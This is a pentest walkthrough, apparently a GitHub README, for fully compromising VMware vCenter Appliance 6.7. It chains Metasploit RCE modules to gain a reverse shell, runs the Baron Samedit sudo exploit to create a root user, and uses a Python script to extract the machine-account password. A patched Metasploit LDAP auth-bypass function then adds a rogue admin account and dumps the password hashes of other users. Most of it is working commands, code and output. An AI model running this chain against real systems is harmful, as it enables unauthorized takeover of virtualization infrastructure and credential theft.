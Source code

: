 ## Taking over VMware Vcenter 6.7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000). Intended for research or pentersters only.

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:

![msf_vmware_vcenter_vsan_health_rce](msf_vmware_vcenter_vsan_health_rce.png)

### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

```
# cat /etc/photon-release
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d

# sudo --version
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

### Escalation priviledges via CVE-2021-xxxxx (not yet published)

To be updated once disclosed by VMWare ...

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```python
#!/usr/bin/env python

import sys

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user, it requires root priviledges.

You obtain the user name and password:
```
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module. Leveraging some aspects of [CVE-2020-3952](https://www.vmware.com/security/advisories/VMSA-2020-0006.html), despite the fact the Vcenter is not vulnerable to the CVE-2020-3952 itself. 

At the time of writing this article the Metasploit module needs to be adjusted with a pull request https://github.com/rapid7/metasploit-framework/pull/15656
In the mean time you may adjust the below function in `vmware_vcenter_vmdir_auth_bypass` yourself:

```
  def auth_bypass(ldap)
    unless datastore['BIND_DN']
      ldap.bind(
        method: :simple,
        username: Rex::Text.rand_text_alphanumeric(8..42),
        password: Rex::Text.rand_text_alphanumeric(8..42)
      )
    end
  end
```
After that modification an authenticated `vmware_vcenter_vmdir_auth_bypass` will work.


Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. As a bonus you get password hashes of all the other vcenter users from vsphere.local domain.

Now go to the https://10.0.0.1/ui and logon to the vcenter.
